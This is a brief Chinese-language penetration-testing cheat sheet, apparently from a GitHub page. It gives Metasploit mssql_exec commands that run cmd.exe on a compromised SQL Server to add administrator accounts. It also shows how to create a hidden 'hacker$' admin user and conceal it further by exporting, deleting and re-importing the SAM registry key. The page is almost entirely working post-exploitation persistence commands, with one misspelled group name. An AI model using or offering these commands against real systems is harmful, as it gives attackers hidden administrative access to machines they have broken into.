 # 远程登录开启

实例 ：`msf> use auxiliary/admin/mssql/mssql_exec`

`set CMD cmd.exe /c net user`

`set cmd cmd.exe /c net user shenlan test /add&net localgroup administrators shenlan /add`

## 隐藏用户

net user hacker$ hacker /add  创建隐藏用户
net localgroup  admininistators  hacker$  /add  添加用户到管理员组

`set cmd cmd.exe /c net user hacker$ hacker /add&net localgroup administrators hacker$ /add`

### 高级隐藏

`reg export HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users c:\1.reg` 【导出注册表】
`net user hacker$ del` 【删除用户】
`reg import c:\1.reg`【导入注册表】
`del c:\1.reg` 【删除导出的文件】

>有的系统中的注册表键值可能不一样，如Account和Accounts、
最好先看看系统的SAM键值
> `reg /？`查看reg命令的用法

## 删除用户

`set cmd cmd.exe /c net user shenlan /delete`

[手册](https://blog.csdn.net/qq_36374896/article/details/83618410)
